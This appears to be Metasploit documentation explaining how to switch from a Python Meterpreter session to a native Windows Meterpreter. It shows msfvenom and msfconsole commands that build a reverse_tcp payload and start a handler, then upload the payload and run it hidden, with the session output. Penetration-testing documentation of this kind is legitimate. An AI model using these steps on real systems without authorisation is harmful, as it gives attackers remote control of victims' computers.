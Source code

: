 If you are familiar with using the post exploitation API for Windows, you probably know about
Railgun. Unfortunately, Railgun is not available in Python Meterpreters.

## Switching to a Native Meterpreter

The Python Meterpreter currently does not quite have the same strength as a native Meterpreter,
therefore there are times you will want to migrate to a native one to expose yourself with more
features.

There are many ways to migrate to a native Meterpreter, some common approaches:

**Example 1: Upload and Execute**

Step 1: Produce a native Meterpreter, such as:

```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=5555 -f exe -o /tmp/native.exe
```

Step 2: Start another handler for the native payload:

```
./msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST [IP]; set LPORT 5555; run"
```

Step 3: Upload the native via the Python Meterpreter session:

```
meterpreter > upload /tmp/native.exe C:\\Users\\sinn3r\\Desktop
[*] uploading  : /tmp/native.exe -> C:\Users\sinn3r\Desktop
[*] uploaded   : /tmp/native.exe -> C:\Users\sinn3r\Desktop\native.exe
meterpreter >
```

Step 4: Execute the native payload:

```
meterpreter > execute -H -f C:\\Users\\sinn3r\\Desktop\\native.exe
Process 2764 created.
```

And then your other handler (for the native payload) should receive that session:

```
[*] Starting the payload handler...
[*] Sending stage (957999 bytes) to 192.168.1.220
[*] Meterpreter session 1 opened (192.168.1.209:5555 -> 192.168.1.220:49306) at 2016-07-05 21:48:04 -0500

meterpreter > sysinfo
Computer        : WIN-6NH0Q8CJQVM
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
meterpreter >
```
